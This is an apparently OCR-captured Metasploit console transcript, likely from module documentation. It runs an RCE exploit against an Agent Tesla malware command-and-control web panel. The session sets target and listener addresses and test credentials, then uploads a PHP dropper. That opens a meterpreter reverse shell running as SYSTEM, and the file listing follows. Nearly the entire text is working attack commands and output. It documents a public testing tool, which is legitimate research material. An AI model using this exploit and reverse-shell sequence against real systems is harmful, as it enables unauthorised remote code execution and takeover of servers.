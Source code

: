 ```
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME                    no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf exploit(multi/http/agent_tesla_panel_rce) > set LPORT 5566
LPORT => 5566
msf exploit(multi/http/agent_tesla_panel_rce) > set USERNAME test
USERNAME => test
msf exploit(multi/http/agent_tesla_panel_rce) > set PASSWORD test
PASSWORD => test
msf exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:5566
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .RVfu.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.RVfu.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:5566 -> 169.254.162.16:51840) at 2020-06-16 15:14:12 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.RVfu.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 15:10:40 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 15:10:40 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 15:10:40 -0500  jsonp.php
```